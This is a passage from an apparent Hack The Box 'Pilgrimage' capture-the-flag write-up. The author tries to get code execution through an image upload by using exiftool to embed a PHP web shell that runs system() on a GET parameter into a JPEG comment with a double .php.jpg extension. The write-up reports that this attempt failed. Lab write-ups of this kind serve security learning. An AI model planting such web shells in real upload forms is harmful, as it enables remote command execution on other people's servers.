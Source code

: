 This is interesting and definitely gives us a tip for a potential attack vector.

Lets try getting some PHP coded execution via the image upload.

First I'll create an account using `test:password`

![pilgrimage_register.png](../assets/pilgrimage_assets/pilgrimage_register.png)

Next I can head to Google and find a picture of a dog to embed my PHP into:

![pilgrimage_search.png](../assets/pilgrimage_assets/pilgrimage_search.png)

First I tried simply adding my php code as comment to the image using exiftool, but had no luck:

```
┌──(ryan㉿kali)-[~/HTB/Pilgrimage]
└─$ mv dog.jpg dog.php.jpg             
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Pilgrimage]
└─$ exiftool -Comment='<?php system($_GET['cmd']); ?>' dog.php.jpg 
    1 image files updated
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Pilgrimage]
└─$ file dog.php.jpg
dog.php.jpg: JPEG image data, JFIF standard 1.02, resolution (DPI), density 72x72, segment length 16, comment: "<?php system($_GET[cmd]); ?>", progressive, precision 8, 5257x3505, components 3
```
